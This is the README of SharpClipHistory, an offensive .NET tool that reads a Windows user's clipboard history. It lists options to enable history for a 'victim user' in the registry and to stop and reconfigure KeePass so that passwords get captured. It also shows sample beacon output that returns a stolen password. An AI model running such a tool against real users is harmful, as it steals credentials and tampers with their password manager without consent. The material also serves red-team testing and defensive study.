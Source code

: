 # SharpClipHistory
SharpClipHistory is a .NET 4.5 application written in C# that can be used to read the contents of a user's clipboard history in Windows 10 starting from the 1809 Build.

# Build Steps
The project must be compiled on a Windows 10 host that supports the clipboard history feature (Build 1809 onwards). 
Building the project should be simple, just clone and hit Build in Visual Studio. However, if there are missing assemblies the following references will have to be added manually:
* C:\Program Files (x86)\Windows Kits\10\References\10.0.17763.0\Windows.Foundation.UniversalApiContract\7.0.0.0\Windows.Foundation.UniversalApiContract.winmd
* C:\Program Files (x86)\Windows Kits\10\References\10.0.17763.0\Windows.Foundation.FoundationContract\3.0.0.0\Windows.Foundation.FoundationContract.winmd

A pre-built executable can also be found [here](https://github.com/mwrlabs/SharpClipHistory/releases).

# Usage
```
C:\Users\User\Desktop>SharpClipHistory.exe --help
SharpClipHistory v1.0
Usage: SharpClipHistory.exe <option>
Options:
    --checkOnly
        Check if the Clipboard history feature is available and enabled on the target host.
    --enableHistory
        Edit the registry to enable clipboard history for the victim user and get contents.
    --saveImages
        Save any images in clipboard to a file in APPDATA.
    --keepassBypass
        Stops KeePass (if it is running) and modifies the config file. Next time KeePass is launched passwords will be saved in clipboard history.
```
# Example
```
beacon> execute-assembly /root/SharpClipHistory.exe
[*] Tasked beacon to run .NET program: SharpClipHistory.exe
[+] host called home, sent: 224299 bytes
[+] received output:

[+] Clipboard history feature is enabled!
[+] Clipboard history Contents:

4/25/2019 2:27:11 PM admin
4/25/2019 2:27:06 PM Sup3rS3cur3Passw0rd123!
```
